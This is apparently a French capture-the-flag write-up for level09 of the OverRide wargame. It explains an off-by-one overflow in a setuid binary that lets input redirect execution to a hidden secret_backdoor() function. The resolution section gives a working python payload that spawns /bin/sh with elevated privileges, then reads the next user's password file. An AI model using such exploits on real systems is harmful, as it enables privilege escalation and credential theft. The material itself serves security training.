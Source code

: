## Comportement
- J'ai des droits `level09` que je peux vérifier en tapant `whoami`
- Un binaire est présent avec des droits différents : `-rwsr-s---+ 1 end     users   12959 Oct  2  2016 level09*`
En exécutant le binaire (`./level09`), on observe:
    - 2 inputs : login et message.  
    ```shell
    level09@OverRide:~$ ./level09 
    --------------------------------------------
    |   ~Welcome to l33t-m$n ~    v1337        |
    --------------------------------------------
    >: Enter your username
    >>: cuz
    >: Welcome, cuz
    >: Msg @Unix-Dude
    >>: wtf dude
    >: Msg sent!
    ```


## Analyse
En analysant le binaire (`gdb ./level09`) on observe:
- Une faille : un signe `=` en trop qui fait que l'on loop 41 tours et nn 40 tours sur un buffer de 40, donc 1 de trop. On peut overflow la structure suivante (il s'agit de size) qui determine la longeur du `strncpy()`:  
    ```shell
    idx = 0;
    while (idx < 41 && *(username + idx))
    {
        *(msg->username + idx) = *(username + idx);
        idx += 1;
    }
    ```
- Il y a une fonction `secret_backdoor()` qui n'est jamais appele dans le programme. Elle appelle `system()` avec le parametre qu'on lui fournit : 
    ```shell
    void secret_backdoor(void)
    {
    char shellcode[128];

    fgets(shellcode, 0x80, stdin);
    system(shellcode);
    }
    }
    ```


## Résolution
- Partie 1 du Payload :
    - on utilise 40 octets (A*40) pour remplir le buffer.
    - on ajoute la valeur maximale d'un octet (\xff) 
    - suivie d'un retour à la ligne (\x0a) pour séparer les deux strings. 
- Partie 2 du Payload :
    -  offset de 200 octets (B*200).
    - adresse de la fonction `secret_backdoor()` : `\x8c\x48\x55\x55\x55\x55\x00\x00`. (info functions secret_backdoor)
    - on ajoute un retour à la ligne (\x0a).
    - on finit par la commande "/bin/sh".
- On craft notre payload : 
```shell
python -c 'print "A"*40+"\xff"+"\x0a"+"B"*200+"\x8c\x48\x55\x55\x55\x55\x00\x00"+"\x0a"+"/bin/sh"' > /tmp/payload
cat /tmp/payload - | ./level09
```
- Un shell s'ouvre avec de nouveaux privilèges : en effet, si l'on tape `whoami`, on obtient `end`.
- Il ne reste plus qu'à :
  - récupérer le password (`cat /home/users/end/.pass`)
  - quitter le shell (`exit`)
  - et passer au end (`su end`) en renseignant ce password.
  